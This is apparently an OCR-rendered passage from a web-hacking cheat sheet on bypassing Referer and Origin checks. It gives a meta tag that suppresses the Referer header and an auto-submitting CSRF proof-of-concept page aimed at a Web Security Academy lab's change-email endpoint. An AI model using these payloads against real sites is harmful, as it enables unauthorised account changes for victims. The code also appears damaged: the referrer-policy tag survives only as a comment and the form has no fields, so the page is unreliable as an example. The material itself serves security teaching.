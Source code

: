 ### Referrer / Origin check bypass

**Avoid Referrer header**

Applications may validate the 'Referer' header only when it's present. To prevent a browser from sending this header, the following HTML meta tag can be used:

```xml
<meta name="referrer" content="never">
```

This ensures the 'Referer' header is omitted, potentially bypassing validation checks in some applications.

**Regexp bypasses**


{{#ref}}
ssrf-server-side-request-forgery/url-format-bypass.md
{{#endref}}

To set the domain name of the server in the URL that the Referrer is going to send inside the parameters you can do:

```html
<html>
  <!-- Referrer policy needed to send the qury parameter in the referrer -->
  <head>
    <!--
meta-referrer: unsafe-url
-->
  </head>
  <body>
    <script>
      history.pushState("", "", "/")
    </script>
    <form
      action="https://ac651f671e92bddac04a2b2e008f0069.web-security-academy.net/my-account/change-email"
      method="POST">
      
      
    </form>
    <script>
      // You need to set this or the domain won't appear in the query of the referer header
      history.pushState(
        "",
        "",
        "?ac651f671e92bddac04a2b2e008f0069.web-security-academy.net"
      )
      document.forms[0].submit()
    </script>
  </body>
</html>
```
